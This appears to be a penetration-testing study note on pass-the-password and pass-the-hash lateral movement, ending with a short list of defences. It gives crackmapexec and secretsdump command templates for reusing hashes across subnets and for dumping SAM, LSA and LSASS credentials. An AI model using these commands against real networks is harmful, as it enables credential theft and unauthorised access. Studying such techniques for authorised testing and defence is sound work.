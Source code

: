 What are pass attacks? (Pass the Password/Pass the Hash)

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

![[Pasted image 20240828172033.png]]

We will primarily use a tool called crackmapexec whose syntax will look something like this:

```
crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <password>
```

![[Pasted image 20240828172250.png]]

Lets say we have some hashes that we got from metasploit after running hashdump

![[Pasted image 20240828172414.png]]

 Or we can use a tool called secretsdump like so:

```
secretsdump.py <DC>/<user>:<password> @ <ip_of_DC>
```

We can then use crackmapexec to pass the hash as well by this command:

```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth
```

![[Pasted image 20240828172648.png]]

We can additionally use crackmapexec to dump valuable data:

```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam (or --shares, --lsa)
```

![[Pasted image 20240828172805.png]]

It even has built in modules...

```
crackmapexec smb -L
```

![[Pasted image 20240828172932.png]]

For example, we can dump the lsass with lsassy

```
crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth -M lsassy
```

![[Pasted image 20240828173043.png]]

There is also a database for crackmapexec which tells you how many attempts a user has made to login and stuff

```
cmedb
```

![[Pasted image 20240828173156.png]]

Mitigation:

It is hard to completely prevent, but we can make it more difficult on a hacker:

1) Limit account re-use:
	1) Avoid re-using local admin password
	2) Disable Guest and Administrator accounts
	3) Limit who is a local administrator(least privilege)
2) Utilize strong passwords:
	1) The longer the better (>14 characters)
	2) Avoid using common words
	3) I like long sentences
3) Privilege Access Management(PAM):
	1) Check out/in sensitive accounts when needed
	2) Automatically rotate passwords on check out and check in
	3) Limits pass attacks as hash/password is strong and constantly rotated